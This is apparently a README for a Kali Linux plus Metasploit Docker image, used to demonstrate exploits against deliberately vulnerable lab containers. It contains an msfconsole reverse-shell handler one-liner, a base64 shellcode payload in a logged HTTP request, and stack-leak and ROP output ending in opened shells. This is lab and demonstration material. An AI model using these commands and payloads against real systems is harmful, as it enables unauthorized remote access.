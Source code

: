 # kali-metasploit
Containerized Kali Linux with Metasploit Framework installed. Repo is designed to install Polyverse custom modules.

## Build
```
pv build docker
```

## Usage
```
docker run -it polyverse/kali-metasploit msfconsole
```

## Example
You can use the `-x` switch with msfconsole and then specify all the msf commands you want to run in a single double-quoted argument.
```
docker run -it -p 5555:5555 polyverse-internal.jfrog.io/kali-metasploit msfconsole -x "use multi/handler; set payload linux/x86/shell_reverse_tcp; set LHOST $(docker run -it -p 5555:5555 polyverse-internal.jfrog.io/kali-metasploit ifconfig eth0 | grep inet | awk '{print $2}'); set LPORT 5555; exploit"
```

### c-exploit.sh
In this example, an attacker container (`polyverse-internal.jfrog.io/kali-metasploit`) will get a reverse-shell from the victim container (`polyverse/c-exploit`).

1. In this repo, perform `pv build -r polyverse-internal.jfrog.io docker`. This will create the Docker container image `polyverse-internal.jfrog.io/kali-metasploit`.
2. `cd ..` to move up a folder and then `git clone https://github.com/polyverse-security/c-exploit.git`. If you've already cloned, just go to the folder and `git pull`.
3. `pv build docker` to create a new version of `polyverse/c-exploit`.
4. `cd ../kali-metasploit` to get back to the original folder.
5. In one terminal window, launch `docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit`
6. In another terminial window, run the `./c-exploit.sh` script. You can look at the script to see what it's doing, but it's basically calling the `kali-metasploit` container with sub-scripts to determine ip addresses; it also runs `msfconsole` with the `-x` option that allows you to specify all the arguments for the metasploit module in a single command line.

This is what you should see in the c-exploit window:

```
$ docker run -it --rm --privileged -p 8080:80 --name c-exploit polyverse/c-exploit
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 172.17.0.2. Set the 'ServerName' directive globally to suppress this message
[Tue Aug 15 07:16:40.745028 2017] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.10 (Debian) PHP/7.1.8 configured -- resuming normal operations
[Tue Aug 15 07:16:40.745097 2017] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
172.17.0.1 - - [15/Aug/2017:07:17:01 +0000] "GET /index.php?q=YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== HTTP/1.1" 200 277 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
```

And this is what you should see in the kali-metasploit window:

```
$ ./c-exploit.sh 
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v4.15.5-dev                          ]
+ -- --=[ 1675 exploits - 959 auxiliary - 294 post        ]
+ -- --=[ 489 payloads - 40 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

RHOST => 192.168.0.15
RPORT => 8080
payload => linux/x64/shell_reverse_tcp
LHOST => 172.17.0.2
LPORT => 5555
[*] Started reverse TCP handler on 172.17.0.2:5555 
[*] start exploit...
[*] address of rsp w/ offset = 7fffffffe630
[*] base64-encoded payload: YWFhYWFhYWFhYWFhYWFhYWEw5v///38AAGopWJlqAl9qAV4PBUiXSLkCABWzrBEAAlFIieZqEFpqKlgPBWoDXkj/zmohWA8FdfZqO1iZSLsvYmluL3NoAFNIiedSV0iJ5g8FYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYmJiYg== (Length: 500)
[*] Command shell session 7 opened (172.17.0.2:5555 -> 172.17.0.3:42242) at 2017-08-16 07:01:56 +0000
[*] done exploit.... 
```

At this point, you should have a reverse shell in the kali-metasploit window into the c-exploit container.

### tcp_echo_server.sh
Similar to c-exploit above, running "tcp_echo_server.sh" will result in output something like this:
[*] Started reverse TCP handler on 172.17.0.3:5555 
[*] 172.16.1.31:8080 - Start...
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - VULN STACK FRAME...
[*] 172.16.1.31:8080 - vuln_padding:     ["0000000000000000"] (0x0)
[*] 172.16.1.31:8080 - vuln_canary:      ["00cf1c4b8c5b8b3c"] (0x3c8b5b8c4b1ccf00)
[*] 172.16.1.31:8080 - vuln_saved_bp:    ["d0f280fbfd7f0000"] (0x7ffdfb80f2d0)
[*] 172.16.1.31:8080 - vuln_ret_addr:    ["8a0a400000000000"] (0x400a8a)
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - MAIN STACK FRAME...
[*] 172.16.1.31:8080 - main_argv_save:   ["b8f380fbfd7f0000"] (0x7ffdfb80f3b8)
[*] 172.16.1.31:8080 - main_padding:     ["00000000"]
[*] 172.16.1.31:8080 - main_argc_save:   ["01000000"] (0x1)
[*] 172.16.1.31:8080 - main_cli_len:     ["10000000"] (0x10)
[*] 172.16.1.31:8080 - main_server_port: ["34120000"] (0x1234)
[*] 172.16.1.31:8080 - main_server_fd:   ["03000000"] (0x3)
[*] 172.16.1.31:8080 - main_client_fd:   ["04000000"] (0x4)
[*] 172.16.1.31:8080 - main_server_addr: ["02001f90000000000000000000000000"]
[*] 172.16.1.31:8080 - main_client_addr: ["02009322ac1100010000000000000000"]
[*] 172.16.1.31:8080 - main_unknown:     ["b0f380fbfd7f0000"] (0x7ffdfb80f3b0)
[*] 172.16.1.31:8080 - main_canary:      ["00cf1c4b8c5b8b3c"] (0x3c8b5b8c4b1ccf00)
[*] 172.16.1.31:8080 - main_saved_bp:    ["0000000000000000"] (0x0)
[*] 172.16.1.31:8080 - main_ret_addr:    ["454ff962647f0000"] (0x7f6462f94f45)
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - COMPUTED ADDRESSES...
[*] 172.16.1.31:8080 - a_libc_base:      0x7f6462f73000
[*] 172.16.1.31:8080 - a_stack_free:     0x7ffdfb7ff000
[*] 172.16.1.31:8080 - a_libc_mprotect:  0x7f646306b550
[*] 172.16.1.31:8080 - a_libc_read:      0x7f6463062320
[*] 172.16.1.31:8080 - a_libc_poprdi:    0x7f6463063800
[*] 172.16.1.31:8080 - a_libc_poprsi:    0x7f646305a80b
[*] 172.16.1.31:8080 - a_libc_poprdx:    0x7f6463033d40
[*] 172.16.1.31:8080 - 
[*] 172.16.1.31:8080 - Done. (If successful, you should get a promptless shell.)
[*] Command shell session 1 opened (172.17.0.3:5555 -> 172.17.0.2:53730) at 2017-09-15 20:38:14 +0000


